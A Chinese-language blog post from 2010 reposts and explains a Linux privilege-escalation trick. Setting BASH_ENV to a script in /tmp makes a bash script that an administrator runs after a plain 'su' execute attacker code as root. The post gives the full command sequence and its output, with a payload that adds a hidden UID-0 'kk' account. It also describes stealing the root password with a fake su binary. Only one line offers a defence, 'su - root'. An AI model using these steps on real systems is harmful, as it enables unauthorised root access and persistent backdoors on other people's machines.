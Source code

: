 title: linux下$BASH_ENV变量的利用
categories: [Linux,Shell编程]
tags: []
date: 2010-08-13 20:25:00
---
转载一编提权文章做解释：<br /><p>一个linux提权用的技巧，放出来攒RP了。<br />OK，通常情况下，我们在执行bash脚本的时候，有一个执行过程，其中有一点比较重要:如果BASH_ENV被设置的话，它就会执行BASH_ENV指向的脚本<br />一个test:<br />以下是引用片段：<br />[xiaoyu@localdomain ~]$ echo $BASH_ENV<br />[xiaoyu@localdomain ~]$ export BASH_ENV=&quot;/tmp/.bashrc&quot;<br />[xiaoyu@localdomain ~]$ echo $BASH_ENV<br />/tmp/.bashrc<br />[xiaoyu@localdomain ~]$ cat /tmp/.bashrc<br />#!/bin/bash<br />echo &quot;Hello&quot;<br />[xiaoyu@localdomain ~]$ ls -l<br />-rwxrwxr-x 1 xiaoyu xiaoyu 22 2008-09-11 05:54 test.sh</p><p>[xiaoyu@localdomain ~]$ cat test.sh<br />#!/bin/bash<br />echo &quot;kk&quot;<br />[xiaoyu@localdomain ~]$ ./test.sh<br />Hello<br />kk</p><p>恩，很好，和我们预期的一样。看看我们怎么利用。</p><p>grep su ~/.bash_history<br />显示此用户有使用su登录root账户的特殊癖好。以前我们遇到这种情况通常就是塞个fakesu.c进去。然后修改.bash_profile，建立个别 名之类的东西。通过getpass来获得root密码，记录，然后去除别名.....关键是管理员使用正确密码登录的时候也是会提示一次密码错误。遇到傻 点的管理员可能就放过这个细节了，再输入一遍密码就OK了。但是某些非人类admin会以最快的速度检查系统被入侵的迹象，外加啥啥啥，而且这种管理员改  root密码几乎是肯定的了。所以偷取下来的密码也没啥用处。恩，聪明的X客们一定知道我要做什么了。呵呵，先看看环境变量su后在不<br />以下是引用片段：<br />[xiaoyu@localdomain ~]$ echo $BASH_ENV<br />/tmp/.bashrc<br />[xiaoyu@localdomain ~]$ su<br />Password:<br />[root@localdomain xiaoyu]# echo $BASH_ENV<br />/tmp/.bashrc</p><p>OK，实验结束，实战：<br />以下是引用片段：<br />[xiaoyu@localdomain tmp]$ echo ’/usr/sbin/useradd -u 0 -o kk 2&gt; /dev/null’ &gt; /tmp/.bashrc<br />[xiaoyu@localdomain tmp]$ cat /tmp/.bashrc<br />/usr/sbin/useradd -u 0 -o kk 2&gt; /dev/null<br />[xiaoyu@localdomain tmp]$ grep kk /etc/passwd<br />[xiaoyu@localdomain tmp]$ echo $BASH_ENV<br />/tmp/.bashrc<br />[xiaoyu@localdomain tmp]$ su<br />Password:<br />[root@localdomain tmp]# cd /home/xiaoyu</p><br /><br />解释。<br />.bash_profile 文件内容<br /><br /># .bash_profile<br /><br /># Get the aliases and functions<br />if [ -f ~/.bashrc ]; then<br />. ~/.bashrc<br />fi<br /><br /># User specific environment and startup programs<br /><br />PATH=$PATH:$HOME/bin<br /><br />export PATH<br />unset USERNAME<br /><br />----------------------------------------------------------------------------------------------------------------------------------<br />----------------------------------------------------------------------------------------------------------------------------------<br />.bashrc文件<br /># .bashrc<br /><br /># User specific aliases and functions<br /><br />alias rm='rm -i'<br />alias cp='cp -i'<br />alias mv='mv -i'<br /><br /># Source global definitions<br />if [ -f /etc/bashrc ]; then<br />. /etc/bashrc<br />fi<br /><br />----------------------------------------------------------------------------------------------------------------------------------<br />----------------------------------------------------------------------------------------------------------------------------------<br />每当执行bash脚本，就会调用。默认是=&gt;bash_profile。它在调用别的脚本。<br /><br />$BASH_ENV变量定义后，直接掉过常规。<br />/tmp目录默认谁都可以写的，谁都可以调用。在httpd提权时，可以上传文件到这，可惜没有拿下。<br /><br />export定义环境变量，启动一个shell后会改变。<br /><br />只用su进去之后，环境变量没有改变。所以调用BASH时，创建用户。<br /><br />$:su - root&#160; //可以预防，改变环境变量到root。 <br /><br /><br /><br /><br />